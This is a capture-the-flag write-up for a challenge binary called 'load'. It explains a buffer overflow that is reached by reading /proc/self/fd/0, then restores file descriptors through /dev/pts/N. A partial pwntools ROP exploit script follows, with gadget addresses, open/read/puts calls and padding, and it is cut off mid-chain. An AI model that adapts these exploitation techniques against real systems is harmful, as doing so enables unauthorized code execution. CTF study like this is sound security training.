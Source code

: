 ```c
  v5 = (signed int)read_num(1LL, "Input size: ");
  read_file(&v4, (const char *)&file_name, v6, v5);
  close_all();
  return 0LL;
}
```

The program will read a file location and open the file. Then, we can give the offset to read and how many byte to read. There is an obvious buffer overflow vulnerability while we read file's content. But the most difficult part is which file to read. We cannot control file's content. There is a wonderful file in linux system: `/proc/self/fd/0`, which refers to the standard input. When the program open the file, we can write arbitrary content inside.

After overflow, the program will call `close_all()`, which close fd `0`, `1`, and `2`, which is equivalent to standard input, standard output, and standard error. Now, we can chain `read`, `write`, `put` to ROP. How can we leak flag?

We need to adjust file descriptor `1` to standard output. When we open a file, the fd will count from start from the lowest one. When open one more file, the fd will plus one. Here, the lowest byte is 0 after `close_all()`. Thus, the second `open` will return fd `1` to us. We can open another file which can return standard input to us. Here, however, `/proc/self/fd/0` will not work(it does not refer to standard input anymore). We have to `/dev/pts/N`. `N` depends on you machine. Simply `ls -la /proc/self/fd` to see symlink to get it; or guess it in remote attack.

By the way, you do not have to change $rdx in ROP chain.

Now, we have standard output, just open and read the flag to see result:
```python
from pwn import *

p = process("./load")

#context.log_level = 'DEBUG'

call_open = p64(0x400710)
call_read = p64(0x4006E8)
call_puts = p64(0x4006C0)

def pop_rsi(addr):
        return p64(0x400a71) + p64(addr) + p64(0xdeadbeef)

def pop_rdi(addr):
        return p64(0x400a73) + p64(addr)


bss_area = 0x601040
p.recvuntil("name:")

file1 = "/proc/self/fd/0\x00"
file2 = "/dev/pts/3\x00"
file3 = "./flag.txt\x00"

p.sendline(file1 + file2 + file3)
p.recvuntil("offset:")
p.sendline("0")
p.recvuntil("size:")

payload = "A" * 56

# read /dev/pts/3 for twice
payload += pop_rsi(0x2702)
payload += pop_rdi(bss_area + len(file1))
payload += call_open
payload += pop_rdi(bss_area + len(file1))
payload += pop_rsi(0x2702)
```